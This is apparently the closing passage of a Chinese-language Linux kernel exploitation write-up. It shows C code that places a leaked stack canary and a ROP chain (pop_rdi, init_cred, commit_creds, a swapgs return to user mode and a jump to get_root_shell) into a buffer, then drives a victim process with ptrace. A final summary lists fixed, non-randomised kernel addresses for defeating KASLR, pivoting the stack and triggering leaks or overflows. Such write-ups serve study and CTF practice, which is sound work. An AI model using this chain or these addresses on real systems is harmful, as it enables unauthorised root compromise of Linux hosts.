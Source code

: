 ```c
    size_t *rop = (size_t *)buffer;

    int canary_index = 0x44-7, rop_index = 0x44;
    rop[canary_index] = canary;

    rop[rop_index++] = pop_rdi;
    rop[rop_index++] = init_cred;
    rop[rop_index++] = commit_creds;
    rop[rop_index++] = swapgs_restore_regs_and_return_to_usermode;
    rop[rop_index++] = 0;
    rop[rop_index++] = 0;
    rop[rop_index++] = (size_t)get_root_shell;
    rop[rop_index++] = user_cs;
    rop[rop_index++] = user_rflags;
    rop[rop_index++] = user_sp;
    rop[rop_index++] = user_ss;

    write(rop_pipe[1], rop, 0x400);

    /* 让victim一直循环下去 */
    while (1)
    {
        if (ptrace(PTRACE_CONT, pid1, NULL, NULL) < 0)
        {
            err_exit("Failed ptrace.");
        }
        waitpid(pid1, NULL, 0);
    }
}

```

## 0xFF. 地址总结

- `0xfffffe0000000000`，位于`cpu_entry_area mapping`中的`IDT table`中，全版本不会参与随机化，可用于泄露内核基地址
- `0xfffffe0000010f58`，其类似于`pt_regs`，在满足一定条件时存放了用户的寄存器，可用于栈迁移打`rop`
- `0xfffffe0000010fb0`，在内核态调用有硬件断点的`copy_from/to_user`时，会根据这个地址的值决定拷贝长度，修改后可通过`uname`泄露或`prctl`溢出。















